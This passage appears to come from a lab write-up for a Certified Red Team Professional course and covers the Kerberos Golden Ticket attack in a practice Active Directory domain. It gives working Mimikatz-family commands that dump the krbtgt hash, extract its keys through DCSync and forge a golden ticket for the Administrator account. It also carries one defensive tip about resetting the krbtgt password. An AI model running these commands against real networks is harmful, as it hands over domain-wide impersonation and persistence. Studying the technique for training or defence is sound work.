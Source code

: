 
- Skips the 1 e 2 steps
- its a signed and encrypted by the hash of krbtgt account which validates the TGT ticket
- the krbtgt account can be used to impersonate any user with any privileges from even a non-domain machine

> its recommended to change the password of the krbtgt account twice as password history is maintained for the account


### How to do that

**Execute mimikatz (or a variant) on DC as DA to get krbtgt hash**:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

**To use the DCSync feature for getting AES keys for krbtgt account**. 

> Use the below command with DA privileges (or a user that has replication rights on the domain object):

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

> Using the DCSync option needs no code execution on the target DC

**Run the below command to create a Golden ticket on any machine that has network connectivity with DC**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![Alt text](/assets/images/posts/crtp/8.png){: .align-center}
